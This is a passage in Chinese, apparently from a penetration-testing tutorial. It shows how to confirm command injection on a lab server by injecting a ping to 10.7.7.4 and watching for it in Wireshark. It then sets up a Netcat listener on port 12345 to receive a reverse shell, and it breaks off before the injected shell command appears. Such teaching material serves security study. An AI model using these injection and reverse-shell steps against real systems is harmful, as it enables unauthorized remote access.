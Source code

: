 ![](img/00121.jpeg)

经过反复试验，您找到了正确的命令。`ping -c 1 10.7.7.4`命令将在服务器上执行，ping 将通过网络嗅探器在攻击者的机器中捕获，例如 Wireshark：

![](img/00122.jpeg)

现在您已经找到了正确的注入命令，可以尝试获得对服务器的直接 shell 访问。为此，首先使用 Netcat 设置侦听器，如下所示：

```
nc -lvp 12345  
```

然后注入命令。这一次，您正在注入一个更高级的命令，如果成功，将生成一个完全交互的 shell：
